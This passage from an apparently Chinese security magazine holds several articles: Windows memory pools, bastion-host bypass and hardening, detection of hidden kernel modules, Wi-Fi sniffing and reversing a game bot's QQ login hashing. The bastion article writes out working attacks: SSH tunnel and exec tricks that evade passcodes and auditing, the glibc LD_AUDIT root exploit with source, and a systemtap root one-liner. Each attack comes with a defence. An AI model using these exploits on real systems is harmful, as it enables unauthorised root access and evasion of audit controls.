在分配页面的同时，为了能够利于页面的回收，需要对每个页面对应的 PFN 项进行设置。关于物理页面的管理以及 PFN 的内容，会在另外的文章中再进行介绍。这里大家可以将 PFN 项认为是针对一个物理页面的管理结构。对于非换页内存池中的页面，每个 PFN 项专门有两个比特位：StartOfAllocation 和 EndOfAllocation，用于表示该页面是一次页面分配的起始页面或者是结束页面。当我们完成所需数量页面的获得，需要将起始页面对应的 StartOfAllocation 位置 1，结束页面对应的 EndOfAllocation 位置 1。

### 2）MiFreePoolPages() 函数的实现

释放页面的函数是 MiFreePoolPages()，这个函数只有一个输入参数，说明需要释放的地址。注意，这里并没有一个专门的参数用于声明需要释放多大的范围，其奥秘隐藏在上面提到的物理页面对应的 PFN 结构中。MiFreePoolPages 函数的流程如下：

- 1. 判断需要释放的地址所在的页面是否是非换页内存池范围内的。
- 2. 判定起始地址，进而通过该地址的 PTE 确定其物理页面，进入 PFN 管理。
- 3. 找到起始页面对应的 PFN 项后，可以看到其 PFN 项结构中的 StartBit 应为 1，由此物理页面开始，向下搜索 PFN 数据库，直到找到第一个 PFN 结构中 EndBit 为 1 的 PFN 项，通过这种方式确定需要释放的内存的大小。
- 4. 将上述范围内的内存释放，其后将其与前后空闲内存（若有的话）合并，将合并后的内存按照类别放入本节介绍的 4 个链表中。

## 换页内存池的管理

换页内存池显然不能使用类似非换页内存池的管理方法，原因是换页内存池中的页面有可能被换出到硬盘，每次搜索某些数量的页面还需要将页面导入内存，如此导来导去，对于管理程序来说效率很低。另外，PFN 项中对于换页内存池中的页面也没有 StartOfAllocation 和 EndOfAllocation 位的容身之所。因此对于换页内存池，采用了另外一种管理方式，使用位图的概念，位图中用一个 bit 来表示一个页面是否被分配，而这些位图被放在非换页内存池的地址范围内。换句话说，管理换页内存池的结构是放在非换页内存池中的。

使用位图的方式非常简便，一个页面对应的位为 1，则代表这个页面已经占用；如果为 0，则表示这个页面空闲。若想同时获得 5 个空闲页面，那么只需要在位图中搜索大于 5 的连续的 0 即可。但是仅仅只有这一个位图来表示页面的使用情况是不够的，比如位图为 11110000 的情况，用户是无法区分出在使用的 4 个页面中，是一次性使用了 4 个页面，还是分别使用了 2 个页面，只是这两次使用位置紧邻。因此除了分配位图（PagedPoolAllocationMap）之外，还有一个分配结束位图（EndOfPagedPoolBitmap）。当一次页面申请时，除了将对应的页面在分配位图中置位外，将该次页面分配的末尾页面在分配结束位图中对应的位也需要置位，示例如图4所示。
图4 换页内存池位图管理的示意

其中 PagedPoolAllocationMap 代表分配位图，指明对应的页面是否已经使用；EndOfPagedPoolBitmap 代表分配结束位图，标明对应的页面是否为一次内存分配最后的页面。

使用分配结束位图来表示一个页面是否是一个结束页面，通过这种方式，也可以帮助我们检验一个需要释放内存的输入地址是否合法，下面举个例子。

以图4为例，若释放地址对应的起始位如箭头所示，注意前面分配位图和分配结束位图对应的两位，上面的为 1，表示这是一个已经分配的页面，下面的为 0，表示该页面并不是一个结束页面，那么我们需要释放页面的地址岂不是进入了另外一次页面分配的领地，显然是不合理的。因此对于一个待回收的页面，可以考察在两个位图中的前两位，00、11 组合是合理的，10 组合不合理，而 01 组合根本就不应该出现，请读者验证。

至于分配的页面是在物理内存还是在页面文件中，以及页面的换入换出，这就是 Windows 中工作集管理器和页面错误处理程序的任务了，其实现的功能也无非就是将需要修剪的页面存入页面文件、释放物理内存，以及将需要的页面从页面文件中读出到物理页面并将其映射。

以上我们介绍了 Windows 系统地址空间内非换页内存池和换页内存池的管理，主要是理解两种内存池的组织算法。

（完）

### 堡垒机绕过与防护方案

文/ xysky

堡垒机在百度百科上的介绍如下：

堡垒机，即在一个特定的网络环境下，为了保障网络和数据不受来自外部和内部用户的入侵和破坏，而运用各种技术手段实时收集和监控网络环境中每一个组成部分的系统状态、安全事件、网络活动，以便集中报警、记录、分析、处理的一种技术手段。从功能上来讲，它综合了核心系统运维和安全审计管控两大主干功能；从技术实现上讲，通过切断终端计算机对网络和服务器资源的直接访问，而采用协议代理的方式，接管了终端计算机对网络和服务器的访问。

市面上的堡垒机产品挺多，一些互联网公司也定制开发了自己的堡垒机。堡垒机后端要登录的目标对象主要是 Windows 和 Linux 机器，在一些特殊环境可能会有 AIX、OS390、AS400 主机。最近有朋友问我堡垒机安全方面的问题，所以我把以前的一些记录整理成文，希望对有需要的朋友有些帮助。本文主要涉及到 SSH 协议转接模块的绕过和防护内容，场景是客户端先 SSH 登录到堡垒机后，再从堡垒机跳到目标机，中间会有动态 passcode 和操作审计，下面先讲如何绕过的方法。

## 绕过方法

### 1）利用 SSH 的 Port Forwarding 功能绕过

SSH 的 Port Forwarding 功能，网上也有称之为 SSH tunnel 功能，分为本地、远程、动态三种情况，对应到 SSH 命令参数分别是 -L、-R、-D，具体可以查看 SSH 帮助或者上网搜索 SSH tunnel 相关内容。在堡垒机环境里，我们要用 -R 功能来绕过，其用法如下：

```bash
ssh -R <local port>:<remote host>:<remote port> <SSH hostname>
```

在堡垒机上测试效果如下：

```bash
[xysky@secssh ~]$ ssh -R 3333:test.xxx.com:22 root@10.10.105.156
root@10.10.105.156's password:
Last login: Wed Aug 17 22:25:46 2011 from 10.10.105.111
[root@xxsec ~]#
```

此时已经登录到目标机器 xxsec 上，并且开启了一个 3333 的端口进行监听，如下：

```bash
[root@xxsec ~]# netstat -nlpt|grep 3333
tcp  0  0 127.0.0.1:3333      0.0.0.0:*      LISTEN      3638/2
tcp  0  0 ::1:3333            :::*           LISTEN      3638/2
[root@xxsec ~]#
```

这时只要在 xxsec 机器上连接本地的 3333 端口即可跳到 test.xxx.com 机器上，如下：

```bash
[root@xxsec ~]# ssh xysky@localhost -p 3333
xysky@localhost's password:
Last login: Wed Aug 17 22:37:30 2011 from 183.xx.134.xx
[xysky@test ~]$
```

到此登录目标机器不再需要 passcode，也不会有审计。其实这个方法主要是利用 SSH 自带的 Forwarding 功能。

## 2）利用 SSHD 的执行命令功能绕过

有经验的同学都知道，SSHD 支持在 SSH 连接后加一个命令，比如 ssh user@host cat /etc/passwd，就会直接显示目标机器 /etc/passwd 的文件内容，并不需要登录到目标机器进入 Shell 之后再敲入 cat /etc/passwd。今天，我们正是要利用这个执行命令功能绕过 passcode 和审计模块。

```bash
[root@xyskypc pentest]# ssh -t xysky@secssh.xxx.com ssh -t root1@gzl.xxx.com
This system is for the use of authorized users only.
xysky@secssh.xxx.com's password:
root1@gzl.xxx.com's password:
Last login: Fri Jul 29 18:13:18 2011 from 121.xx.120.xx
[root@gzl ~]#
```

正常情况下登录到堡垒机 secssh，除了要 password 之外还需要一个 passcode，而上面的情况直接绕过 passcode 连接到了目标机器 gzl。具体原因与堡垒机实现有关，用户登录过来后被 opensshd 处理后直接走到了 opensshd 里的 do_exec() 功能，没有走到 passcode 和审计日志模块就已经登录到目标机器了。

另外，SSH 还有个 ProxyCommand 功能，也是类似的原理，到最后都是执行 opensshd 里的 do_exec() 函数。

## 3）直接入侵堡垒机获取高权限绕过

堡垒机用户登录上来，其 Shell 是被堡垒机厂商修改过的程序，具体表现在 /etc/passwd 里最后的 Shell 并不是 /bin/bash，而是修改过的 /bin/xssh。这个修改过的 xssh 带有 passcode 验证和审计功能。如果想绕过，最简单的办法就是修改 /etc/passwd，而修改这个普通用户是没办法的。这个时候比较直接的办法是本地提权获得 Root 权限。这依赖于当前操作系统内核版本及是否有对内核进行安全加固，而有些漏洞则依赖于应用库版本，比如 glibc 漏洞（CVE-2010-3847），下面是在测试环境直接提权的效果。

```bash
[b@pentest ~]$ mkdir /tmp/exp
[b@pentest ~]$ ln /bin/ping /tmp/exp/tar
[b@pentest ~]$ exec 3< /tmp/exp/tar
[b@pentest ~]$ ls -l /proc/$$/fd/3
lr-x------ 1 b b 64 Nov 3 20:13 /proc/2294/fd/3 -> /tmp/exp/tar
[b@pentest ~]$ rm -rf /tmp/exp/
[b@pentest ~]$ ls
poc.c
[b@pentest ~]$ gcc -w -fPIC -shared -o /tmp/exp poc.c
[b@pentest ~]$ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
[root@pentest ~]#cat /home/b/poc.c
void __attribute__((constructor)) init()
{
    setuid(0);
    system("/bin/bash");
}
[root@pentest ~]#
```

用户 b 普通用户直接利用 glibc 漏洞提到 Root 权限，有了 Root 权限再干活岂不更爽。还有 systemtap 提权漏洞等，更多漏洞可以去 http://www.exploit-db.com 了解。

## 堡垒机加固方案

Linux 系统是开源的，既然 opensshd 有这么多的功能，我们将它的代码改改不就解决了？思路正是来源于此，真正动手前你需要具备一定的 C 代码能力和 Linux 编译或者调试日志方面的能力。

### 1）对 Port Forwarding 功能进行防护

在 /etc/ssh/sshd_config 配置文件中禁止与 forwarding 相关的功能，如下：

```bash
AllowTcpForwarding no
GatewayPorts no
X11Forwarding no
AllowAgentForwarding no
```

以上是基本的，但你不能控制目标机器，所以我们的 ssh -R 方案还是可以绕过的，这需要对 SSH 做手脚来实现。我们先看一下 SSH 连接中到底干了什么事情，用 ssh -v 可以输出调试信息。

```bash
[xysky@secssh ~]$ ssh -v -R 3333:test.xxx.com:22 root@10.10.105.156
OpenSSH_5.5p1, OpenSSL0.9.8e-fips-rhel5 01 Jul 2008
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Applying options for *
debug1: Connecting to 10.10.105.156 [10.10.105.156] port 22.
debug1: Connection established.
debug1: identity file /home/xysky/.ssh/id_rsa type -1
debug1: identity file /home/xysky/.ssh/id_rsa-cert type -1
debug1: identity file /home/xysky/.ssh/id_dsa type -1
debug1: identity file /home/xysky/.ssh/id_dsa-cert type -1
debug1: Remote protocol version 2.0, remote software version OpenSSH_4.3
debug1: match: OpenSSH_4.3 pat OpenSSH_4*
debug1: Enabling compatibility mode for protocol 2.0
debug1: Local version string SSH-2.0-OpenSSH_5.5
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: server->client aes128-ctr hmac-md5 none
debug1: kex: client->server aes128-ctr hmac-md5 none
debug1: SSH2_MSG_KEX_DH_GEX_REQUEST(1024<1024<8192) sent
debug1: expecting SSH2_MSG_KEX_DH_GEX_GROUP
debug1: SSH2_MSG_KEX_DH_GEX_INIT sent
debug1: expecting SSH2_MSG_KEX_DH_GEX_REPLY
debug1: Host '10.10.105.156' is known and matches the RSA host key.
debug1: Found key in /home/xysky/.ssh/known_hosts:3
debug1: ssh_rsa_verify: signature correct
debug1: SSH2_MSG_NEWKEYS sent
debug1: expecting SSH2_MSG_NEWKEYS
debug1: SSH2_MSG_NEWKEYS received
debug1: Roaming not allowed by server
debug1: SSH2_MSG_SERVICE_REQUEST sent
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Trying private key: /home/xysky/.ssh/id_rsa
debug1: Trying private key: /home/xysky/.ssh/id_dsa
debug1: Next authentication method: password
root@10.10.105.156's password:
debug1: Authentications that can continue: publickey,password
Permission denied, please try again.
root@10.10.105.156's password:
debug1: Authentication succeeded (password).
debug1: Remote connections from LOCALHOST:3333 forwarded to local address test.xxx.com:22
debug1: channel 0: new [client-session]
debug1: Entering interactive session.
debug1: remote forward success for: listen 3333, connect test.xxx.com:22
debug1: All remote forwarding requests processed
debug1: Sending environment.
debug1: Sending env LANG = en_US.UTF-8
Last login: Wed Aug 17 22:53:35 2011 from 10.10.105.111
[root@xlsec ~]#
```

看调试信息再结合代码可以更快定位问题出在哪，在 ssh.c 中有如下代码：

```c
case 'L':
    if (parse_forward(&fwd, optarg, 0, 0))
        add_local_forward(&options, &fwd);
    else {
        fprintf(stderr,
            "Bad local forwarding specification '%s'\n",
            optarg);
        exit(255);
    }
    break;

case 'R':
    if (parse_forward(&fwd, optarg, 0, 1)) {
        add_remote_forward(&options, &fwd);
    } else {
        fprintf(stderr,
            "Bad remote forwarding specification "
            "'%s'\n", optarg);
        exit(255);
    }
    break;

case 'D':
    if (parse_forward(&fwd, optarg, 1, 0)) {
        add_local_forward(&options, &fwd);
    } else {
        fprintf(stderr,
            "Bad dynamic forwarding specification "
            "'%s'\n", optarg);
        exit(255);
    }
    break;
```

一看就知道其对应的是 SSH 的几个参数，用于做 SSH tunnel 的，在这里直接干掉也可以。我的做法是延后处理，并将相关命令写入 syslog 用于进行分析，看是否有人在尝试对堡垒机进行攻击。代码如下：

```c
// add syslog by xysky
#include <syslog.h>

case 'R':
    // deny by xysky
    openlog("ssh_sec", LOG_PID, LOG_AUTHPRIV);
    syslog(LOG_INFO, "[uid:%d]: deny remote forwarding by xysky, %s", getuid(), optarg);
    closelog();
    fprintf(stderr, "Bad remote forwarding deny by system.\n");
    exit(255);
```

对其进行编译安装即可看到效果，测试效果在 syslog 里有如下信息：

```text
Aug 18 16:23:12 localhost ssh_sec[5946]: [uid:673]: deny remote forwarding by xysky, 4444:test.xxxx.net:22
```

另外，如果别人自己传个原生的 SSH，这个方案就会失效，可以在 iptables 上再加一层限制，如下：

```bash
iptables -t nat -A POSTROUTING -j LOG --log-prefix "DROP Forwarding " --log-ip-options --log-tcp-options
iptables -t nat -A POSTROUTING -j DROP
```

到此，利用 SSH tunnel 功能绕过已经解决。

### 2）对 SSHD 执行命令功能进行加固

思路还是一样，为了方便调试 opensshd，建议另开一个端口，/usr/sbin/sshd -p 2222 -D -d 即可让 SSHD 处于 2222 端口并会输出调试信息，客户端连接的时候加个 -p 2222 即可。我们利用前面的方法绕过时，相关的调试信息如下（已省略无关的）：

```text
debug1: monitor_child_preauth: xysky has been authenticated by privileged process
debug1: permanently_set_uid: 673/673
debug1: Entering interactive session for SSH2.
debug1: server_init_dispatch_20
debug1: server_input_channel_open: ctype session rchan 0 win 1048576 max 16384
debug1: input_session_request
debug1: channel 0: new [server-session]
debug1: session_new: session 0
debug1: session_open: channel 0
debug1: session_open: session 0: link with channel 0
debug1: server_input_channel_open: confirm session
User child is on pid 13968
debug1: server_input_channel_req: channel 0 request pty-req reply 0
debug1: session_by_channel: session 0 channel 0
debug1: session_input_channel_req: session 0 req pty-req
debug1: Allocating pty.
debug1: session_new: session 0
debug1: session_pty_req: session 0 alloc /dev/pts/3
debug1: server_input_channel_req: channel 0 request env reply 0
debug1: session_by_channel: session 0 channel 0
debug1: session_input_channel_req: session 0 req env
debug1: server_input_channel_req: channel 0 request exec reply 0
debug1: session_by_channel: session 0 channel 0
debug1: session_input_channel_req: session 0 req exec
debug1: Setting controlling tty using TIOCSCTTY.
```

调试信息与正常情况下的对比就容易发现，标红处正常情况下是 request shell reply 0 和 session 0 req shell，而此处变成了 exec，相当于程序逻辑走到另一个分支上去了。我们把它禁止或者在 exec 执行的时候做处理就可以了。我的方案是修改 session.c，代码如下：

```c
static int
session_exec_req(Session *s)
{
    u_int len, success;
    char *command = packet_get_string(&len);
    packet_check_eom();

    // only allow rsync, scp command run, add by xysky 19:15 2011-8-4
    if (strstr(command, "scp -") != NULL || strstr(command, "rsync --server") != NULL)
    {
        debug("xysky say the command is :%s", command);
        success = do_exec(s, command) == 0;
    } else {
        debug("xysky say this command is deny :%s", command);
    }
}
```

```c
success = do_exec(s, NULL) == 0;

}

//        success = do_exec(s, command) == 0;

xfree(command);
return success;
}
```

上面的代码经过真实环境的考验，具体自己看就明白。再经过编译之后，针对 **SSHD** 执行命令的功能也就被限制了。

### 3）对系统内核进行加固

Linux 内核安全加固涉及到的东西比较多，建议先在测试环境多实验和优化，以免造成可用性事件。有兴趣的读者可以研究一下 grsecurity，其官方网站为 http://grsecurity.net/，从网站上下载最新的 Linux 内核及与之对应的 grsecurity 版本，给内核打上 grsecurity 补丁，重启后进行测试。下面是使用其加固前后的对比效果。

测试 glibc 提权漏洞，没用 grsecurity 之前：

```bash
[xysky@pxe-000 ~]$ ./a.sh
mkdir: cannot create directory `/tmp/exp': File exists
lr-x------ 1 xysky xysky 64 Jul 5 23:28 /proc/4081/fd/3 -> /tmp/exp/tar
[root@pxe-000 ~]#
```

使用 grsecurity 之后提权失败，会在日志里看到如下信息：

```bash
Jul 5 22:50:00 pxe-000 kernel: [141.788669] grsec: From 192.168.70.26: denied hardlink of /bin/ping (owned by 0:0) to /tmp/exp/tar for /bin/ln[ln:4967] uid/euid:500/500 gid/egid:500/500, parent /home/xysky/a.sh[a.sh:4965] uid/euid:500/500 gid/egid:500/500
```

测试 systemtap 提权漏洞，没用 grsecurity 之前：

```bash
[xysky@pxe-000 enlightenment]$ printf "install uprobes /bin/sh" > exploit.conf;
MODPROBE_OPTIONS="-C exploit.conf" staprun -u whatever
sh-3.2#
```

使用 grsecurity 之后提权失败如下：

```bash
[xysky@pxe-000 root]$ printf "install uprobes /bin/sh" > exploit.conf;
MODPROBE_OPTIONS="-C exploit.conf" staprun -u whatever
bash: exploit.conf: Permission denied
ERROR: Couldn't mount /mnt/relay: Operation not permitted
[xysky@pxe-000 root]$
```

效果很明显，就不再多说了。

#### 小结

除了直接利用漏洞提权外，前面介绍的绕过方法都是利用了 opensshd 自身实现的功能，当然防护方案也是基于 opensshd 源代码定制的。有些堡垒机在处理这种问题的时候，直接提供一个自己定制的 Shell，在这个 Shell 里只能选择要连接的机器，无法敲命令，看似没什么安全问题，其实堡垒机还有一些其他方面的安全隐患值得关注。举个例子，堡垒机产品为了实现自动登录到后台，服务器会将目标机器的 IP、用户名、密码信息加密保存在数据库里，需要的时候再进行解密。我们不禁要问，数据库本身的安全性如何？加解密算法和密钥安全性如何？负责转接的服务器与数据库交互机制控制安全吗？在客户端处理转接模块（RDP 和 SSH）时，密码是否会在内存中出现？都是可以进行深究的地方。由于涉及到一些具体的商业产品，就不再多说了，有兴趣的读者可以自行研究。

## 实现 Linux 对隐藏模块的检测

文/图 unity

最近看了一些开源的 Rootkit 代码，发现隐藏自身的方法都是利用下面的一句代码：

```c
list_del(&THIS_MODULE->list);


```

list 是全局模块列表的成员，删除之后，就无法从 /proc/modules 里面再看到它了。难道就没有其他办法了？打开 modules.h 看了一下，发现内核为了维护 sysfs 下的项目，竟然还保留了另外的一个链表，也就是 module_kset，如图 1 所示。
图 1

读到这里，聪明的读者一定会想到，我们把这个列表和全局模块列表一比较，不就知道哪些是隐藏模块了吗？下面我们就来试试看。

### 隐藏模块的检测

为了方便测试，我们直接山寨一个 /proc/modules 文件，取名为 /proc/mymodules，之后直接对比这两个文件就可以了。

第一步是要获得 module_kset 这个变量。在内核中，kallsyms_lookup_name 不但可以查找函数，也能查找任何外部变量（具体代码请看附件）。

```c
my_module_kset = (struct kset*)kallsyms_lookup_name("module_kset");
// 创建 proc 目录，这里我就不检查错误了
create_proc_entry("mymodules", 0644, NULL)->read_proc = proc_read;

// 下一步就是遍历这个列表，排除静态编译的模块。
list_for_each_entry(kobj, &my_module_kset->list, entry)
{
    const char *name = kobj->name;
    // 列表结束于连续两个 NULL
    if (NULL == name) {
        if (atend) break;
        ++atend;
        continue;
    }
    // 获取来源结构体
    mk = container_of(kobj, struct module_kobject, kobj);
    if (mk && mk->mod &&
        // 忽略静态编译的
        !my_core_kernel_text((unsigned long)mk->mod->module_core))
    {
        // buf 是 procfs 的输出
        len += snprintf(buf + len, sizeof(buf) - len - 1, "%s\n", name);
    }
}


```

### 实战

好了，编译这个模块并安装，再找个隐藏模块测试一下，就用 fileprot.ko 吧。可以看出这个模块是隐藏的，卸载的时候提示“不存在”，安装的时候提示“已经存在”，明显有问题，如图 2 所示。
图 2

看到这里，你该不会想去遍历系统下面的所有模块，尝试安装+卸载吧？好了，言归正传，我们来看看 /proc/mymodules 里都有什么？如图 3 所示。
图 3

可以看出 fileprot 已经暴露了！为了方便，我们可以使用如下脚本，直接比较 /proc/modules 和 /proc/mymodules 这两个文件。

```bash
diff <(awk '{ print $1 }' /proc/modules | sort) <(cat /proc/mymodules | sort);


```

最终结果如图 4 所示。
图 4

其实这个方法还是可以轻松绕过的，不过这个就留给大家自行发挥啦！

### 无线监听窥秘实录

文/图 MOD

在文明发展中，总是有其光明面及黑暗面，若是不提及黑暗面，是无法讲述文明过程的——宫崎骏语。我们提倡正向使用工具，文章中所描述的攻击行为，是为了更好地加以防范，了解才能更好地防御，攻最终是为了防！

### 虚拟场景演示

- **虚拟场景一：** 一个咖啡吧，一位靓女进门要了杯咖啡，悠闲地打开笔记本上网。不一会，只见附近的一位帅哥起身收拾好自己的笔记本，走到靓女身边，小声问道：请问您是**小姐吗？靓女诧异地看着对方，问道：您是？“哈哈，说来话长，请问我能坐下再聊吗？”靓女疑惑地看着他点了点头。于是帅哥狡黠一笑，开始 balabala……（形容嘴巴一直在讲话）
- **虚拟场景二：** 一个高级宾馆大厅，一位公司高管正在用无线上网办公，这时不远处竞争对手派出的监听者，正全神贯注监听记录着他上网的全过程，包括去过哪些网站，对方都了如指掌。

以上两个场景并非是电影情节，在现实中同样发生着，下面我们通过实战，尝试来模拟一下这两个场景中的技术细节。

### 监听硬件准备

所需道具如下，示意如图 1 所示。

- 一部电脑：负责监听（下文以 A 机指代），需准备 Kali Linux ISO 光盘镜像（可写入 U 盘启动），还有用于监听的 USB 无线网卡。
- 一部笔记本：模拟用户上网操作（下文以 B 机指代）。
- 一台无线路由：连接外网，本次准备的为已刷好石像鬼固件的路由，SSID 为 openwrt。

> 小贴士：Kali Linux 是什么？BackTrack 的下一代产品 Kali，一个面向专业的渗透测试和安全审计的发行版。特别针对渗透测试，因此假设用户事先具备 Linux 操作系统知识。
图 1

### 监听环境搭建

硬件准备妥当，开始架设环境。

首先在 A 机插入 USB 无线网卡，并用写入 Kali Linux 的 U 盘启动 A 机，进入 Kali 系统后，配置无线网卡并连接路由，接着打开 Wireshark，注意混杂模式勾选，之后开始监听，如图 2 所示，然后使用 B 机连接路由上网，模拟用户操作。
图 2

小贴士：混杂模式（Promiscuous Mode）是指一台机器的网卡能够接收所有经过它的数据流，而不论其目的地址是否是它。一般计算机网卡都工作在非混杂模式下，此时网卡只接受来自网络端口的目的地址指向自己的数据。当网卡工作在混杂模式下时，网卡将来自接口的所有数据都捕获并交给相应的驱动程序。网卡的混杂模式一般在网络管理员分析网络数据作为网络故障诊断手段时用到，同时这个模式也被网络黑客利用来作为网络数据窃听的入口。在 Linux 操作系统中，设置网卡混杂模式时需要管理员权限。在 Windows 操作系统和 Linux 操作系统中都有使用混杂模式的抓包工具，比如著名的开源软件 Wireshark。

### 监听细节回放

场景一：实战抓包监听

当 B 机连接路由后，由 Wireshark 监听可知 B 机的计算机名，其中可以得到用户名以及所用笔记本品牌，帅哥搭讪目的达成，如图 3 所示。
图 3

场景二：实战抓包监听

当 B 机连接路由上网时，由 Wireshark 监听可实时得知 B 机浏览网站，所有记录都一览无余，场景二监听者目的达成，如图 4 所示。
图 4

### 由 WIFI 共享谈开

近期某国内厂商原计划推出手机 WIFI 共享接入功能，最终被叫停。当我最初看到该消息时，首先担心的就是安全问题。如果有人恶意搭个无线网络“蜜罐”，再共享出去，然后实施监听，那会有多少用户受害啊？此后看到人民网的报道（http://scitech.people.com.cn/n/2013/0909/c1007-22852367.html），其中腾讯手机管家技术专家的观点我颇为认同。WIFI 共享功能可能把 WIFI 安全隐患风险扩大化，从而在共享过程中造成信息泄露。

相信通过本文您已经看到担心并非是多余的，所以请时刻记住：免费有时会是最贵的，一定要时刻保护好自己哦！

（完）

### 逆向“七雄军师”之旅

文/图 白金之星

“七雄军师”是一款制作很棒的游戏辅助程序，能够完全实现对“七雄争霸”Web 网游的模拟操作，指令发送迅速，执行、反馈准确，拥有很多的使用者。从专业角度看，绝对是一款经过精心设计、制作的软件。关于如何使用游戏辅助不是本文研究的对象（那样太没有技术含量了），软件开发者眼中的应用、游戏和普通用户永远不一样，普通用户眼前只关注软件所带来的操作体验，而我跟大多数软件开发者一样，好奇的是这样一款优秀的辅助程序是怎么开发出来的，如何实现用户登录、模拟游戏指令发送、自动挂机等诸多功能。因为之前对 AMF3 协议和“七雄”游戏协议做过一点研究，在此基础上，又花了些时间对这款辅助软件开始了逆向分析之旅。虽然分析、调试的过程很艰辛，但是也学习到了很多知识，在这里愿把自己的心得写出来与大家分享。

在阅读下文之前，先说明本文主要对辅助系统的功能模块进行逆向分析并模拟实现。关于 AMF 数据解析和游戏指令格式的有关内容，大家可以参考我在黑防发表的另一篇文章《AMF3 协议终极解析——七雄争霸数据包分析》（2013 年 4 月）一文，有关内容本文不再赘述。

### 准备工作

下载一个“七雄军师”辅助软件，注意：不要下载最新版本，因为新版本的软件已经被开发团队加壳处理了，逆向比较复杂。我们下载“七雄军师 2.2.5.0”，该版本没加壳，功能较新版本也无太大变化。因为程序是基于 .NET 平台使用 C# 编写的，所以还需下载一个 Reflector，专门用于 .NET 程序逆向的专用工具，推荐版本是 7.30。辅助软件解压后的所有文件如图 1 所示。
图 1

7xiong.cfg 是系统配置文件，纯文本格式；“七雄军师.exe”是主程序文件；Base.dll 实现日志显示、全局变量初始化；Logic7Xiong.dll 是系统逻辑模块，模拟游戏大部分指令的执行过程；Tools.dll 是工具模块，对系统常用的数据结构（指令参数类、AMF 数据类等）进行封装；WebOperation.dll 是网络操作模块，实现指令发送和接收等通信功能；ICSharpCode.dll 用于解密压缩数据。

启动 Reflector，打开需要逆向的 exe 或 dll 文件，即可完成辅助程序的逆向工作。因 ICSharpCode.dll 实现功能单一，无逆向必要。其他文件逆向截图如图 2 所示。
图 2

把我们所需分析的文件逆向完成后，大家注意，左侧显示逆向文件名称，右侧会把该文件中封装类成员和方法直观地显示出来。在左侧树形控件中选中要逆向的文件名，如“WebOperation”，再点击工具栏上的保存按钮，会把逆向出来的 C# 源码保存至用户指定的文件下。至此，我们已经完成了准备工作，下面开始逐个分析各个模块。

### 登录模块分析

登录模块的功能是模拟游戏用户在浏览器客户端输入账号、密码，选择游戏服务器，最后登录游戏界面的过程。技术环节上主要是构造 HTTP Get、Post 请求包，模拟发送至登录服务器并接收其反馈信息的过程。最关键的环节是将服务器返回保持连接会话的 Cookie 值保存下来，在发送某个请求包时候，再把保存的会话 Cookie 附在请求后一并发送给服务器。不过，登录的过程很复杂，涉及到很多 URL、Cookie，这些都需要事先利用抓包工具逐个分析并记录下来，是个体力活。不用担心，我已经完成了这些工作，整个登录流程如图 3 所示。
图 3

登录过程大致可分为两部分：一是利用 QQ 账号和加密密码登录 QQ_Web 应用身份认证服务器 check.ptlogin2.qq.com；二是如果登录成功，向指定服务器和大区服务器地址发送数据，获得保持游戏会话的 Cookie。其中最重要的 Cookie 值是登录最后一步获得的 JSessionID，是系统指令发送的最核心 Cookie 项，服务器和客户端用于保持会话就是使用这些 Cookie。实际上，真实的游戏客户端登录过程比上图复杂很多，但经过抓包测试，大部分操作环节都不影响我们的模拟指令发送操作，所以只要按照上图的流程操作，保存好关键 Cookie，就可以实现构造、发送 Post 指令，实现和游戏服务器的交互。

登录过程还有一个核心环节不得不说，那就是用户密码加密。大概是在 2012 年 5 月之前，所有基于 Web 的 QQ 应用的登录核心算法都是这样的：“p = md5(md5_3(p) + B);”，将用户输入的口令 P 用 md5_3 进行加密，加密结果与验证码 B 连接成一个新的二进制串，最后对这个二进制串进行 MD5 加密，就得到了加密后的口令。不过，2012 年 5 月份以后，腾讯更新了加密算法，客户端的加密算法还是存放在 JS 脚本中，核心算法如下：

```javascript
D: 用户输入的 QQ 登录口令
V: 验证码
U: 加密使用的二进制序列
var H = hexchar2bin(md5(D))
var F = md5(H + hexchar2bin2(U))
var C = md5(F + V.toUpperCase())
```

将口令首先使用 MD5 进行加密，接着将加密完成的字符串转换成二进制序列 H；将加密使用的二进制序列参数 U 由字符串转换成二进制序列并与 H 进行连接，将连接的结果使用 MD5 加密，结果为 F；最后将验证码转换成大写与 F 连接，再次使用 MD5 加密形成最终加密口令 C。

上面的代码逻辑看上去很简单，“七雄军师”对加密模块实现在主程序中，有兴趣的可以看看源码。为了深入理解加密过程，这里我打算使用 VC 重写加密过程，不过需要一点点技巧。因为原始的加密算法完全基于 JS 脚本，其基本语法和对运算符的解释和 C 语言完全不同，如果你想自己按照他们的算法用 VC 来实现，难度很大，而且最要命的是 JS 脚本里使用的 MD5 算法也好像是做过修改的，不是在网上随便找个基于 C 或 C++ 的 MD5 库来代替就可以的。既然用 VC 照搬源码的方法行不通，我们想办法用 VC 来代替我们解释 JS 脚本中的加密函数不就行了吗？我们需要做什么呢？OK，先找到客户端加密使用的 JS 脚本（网上有下载），接下来我又在网上找到一个可以解释执行 JS 脚本的类 CScriptObject（网上也有下载），原理大概是使用 COM 技术来执行 JS 脚本。VC 核心代码如下：

```cpp
m_ScriptObj.LoadScript(strpath);
CSafeArrayHelper sfHelper;
_variant_t var, var2, var3;
sfHelper.Create(VT_VARIANT, 1, 0, 3);
var = _bstr_t(strPsw);//密码
var2 = _bstr_t(strVfy);//验证码
var3 = _bstr_t(struin);//UI运算码
sfHelper.PutElement(0, (void*)&var);
sfHelper.PutElement(1, (void*)&var2);
sfHelper.PutElement(2, (void*)&var3);
LPSAFEARRAY sa = sfHelper.GetArray();
```

```cpp
_variant_t varRet;
if (m_ScriptObj.RunProcedure(strProc, &sa, &varRet))
{
    strEncPsw = (LPCTSTR)_bstr_t(varRet);
}


```

CScriptObject 对象 `m_ScriptObj` 将 JS 文件加载，创建 CSafeArrayHelper 对象用来保存参数，最后使用 `m_ScriptObj` 的 `RunProcedure` 函数间接调用 JS 脚本的加密函数 `strProc`，`varRet` 为函数返回值。得到最关键的 `JSESSIONID` 后，就可构造 AMF POST 请求包，模拟游戏协议发送了。最终构造 HTTP 请求字符串如表 1 所示。

| 字段 | 内容 |
|---|---|
| 请求 URL | `http://s368.sh.7.qq.com/dynasty/messagebroker/amf` |
